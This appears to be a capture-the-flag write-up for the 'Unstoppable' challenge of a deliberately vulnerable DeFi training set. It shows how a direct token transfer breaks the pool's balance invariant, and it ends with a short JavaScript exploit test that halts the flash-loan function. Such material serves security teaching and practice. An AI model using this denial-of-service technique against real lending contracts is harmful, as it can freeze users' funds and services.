 # Challange #1 - Unstoppable

### There’s a tokenized vault with a million DVT tokens deposited. It’s offering <b>flash loans</b> for free, until the grace period ends.

### To pass the challenge, make the vault stop offering <b>flash loans</b>.

<b>_Flash Loans_</b> is located in the <b>UnstoppableLender.sol</b> file.

Challange is to disable the <b>flash loans</b> in the <b>UnstoppableLender.sol</b> file.

this function takes a uint256 borrowAmount as a parameter.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {}
```

now we need to inspect variable poolBalance:

1. ```solidity
   uint256 public poolBalance;
   ```
2. ```solidity
   function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
   ```
3. ```solidity
   assert(poolBalance == balanceBefore);
   ```

## Best place to exploit

```solidity
   assert(poolBalance == balanceBefore);
```

## Exploit

```javascript
it("Exploit", async function () {
	await this.token.transfer(
		this.pool.address,
		INITIAL_ATTACKER_TOKEN_BALANCE,
		{
			from: attacker,
		}
	);
});
```

